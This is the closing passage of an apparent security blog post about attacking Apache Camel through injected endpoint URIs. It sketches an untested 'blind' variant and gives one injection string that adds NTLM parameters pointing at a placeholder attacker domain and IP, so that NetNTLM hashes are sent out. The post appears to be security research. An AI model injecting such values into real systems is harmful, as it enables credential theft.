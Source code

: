 
### Now do it with your eyes closed! (Next Steps)

All the information packed in this article heavily depends on inspecting the server responses, which we assumed will contain the errors/stack traces generated by Camel. But what if those are taken away from us? How can we cause havoc, deprived of our... *vision*?

Well, I am not exactly sure to be honest, as what is mentioned in this paragraph is completely untested and only a theoretical potential attack vector. We can indeed still utilize the same attack vector, injecting endpoints with "instructions" for Camel to process, but without seeing the results. We need a volunteer on the remote system, one that will happily lend a hand to the blind man that we are. And the name of the little sucker, NTLM.

Camel supports NTLM authentication, and we can potentially inject the following parameters in the endpoint URI so that the are processed by Camel:

```
3816/../?authMethod=NTLM&authMethodPriority=NTLM&authDomain=ATTACKERDOMAIN&authHost=ATTACKERIP
```

In theory, this would cause Camel to attempt to authenticate to us, happily sending us over some NetNTLM hashes, a valuable indicator of light that allows us to finally recover part of our vision. But this is only a theory.



### TL;DR

Camel seems neat. Please watch out what you feed to it, not because it doesn't work correctly, but because it does.

That's all folks, thanks for reading!

[Back](https://naliferopoulos.github.io/ThinkingInBinary/)
